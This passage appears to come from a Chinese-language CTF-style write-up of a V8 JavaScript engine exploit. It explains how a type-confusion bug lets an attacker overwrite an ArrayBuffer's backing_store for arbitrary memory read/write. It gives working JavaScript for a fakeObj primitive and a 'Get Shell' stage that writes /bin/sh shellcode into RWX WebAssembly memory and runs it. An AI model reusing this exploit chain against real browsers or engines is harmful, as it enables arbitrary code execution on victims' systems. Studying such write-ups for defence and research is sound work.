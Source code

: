 我们对`p1`中的`x1`和`x2`进行写入时，实际上会写入`obj`中的对应位置。这里有一个非常常用的结构`ArrayBuffer`，其中的`backing_store`字段存放了一个内存地址，该地址是实际读写时的地址。如果能够修改该地址为任意地址，则可以利用这一`ArrayBuffer`达到任意地址读写的效果。  
通过调试很容易发现，`backing_store`和`x2`的偏移相同，因此对`x2`进行修改能够达到修改`backing_store`的作用，进而可以控制`ArrayBuffer`任意地址读写。

```bash
function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i < 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}
```

### Get Shell

Get shell 的方法比较常规，通过`wasm`分配一块可读写可执行的内存，然后通过间接寻址找到这一内存，在这一版本中`wasmInstance`偏移`0xf0`处即为该地址。通过任意地址读写讲 shellcode 写入，通过调用 wasm 中的函数执行写入的 shellcode。

```bash
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print("rwx addr", code_addr);
fakeObj(mem, code_addr.asDouble());
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i < 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
f();
```
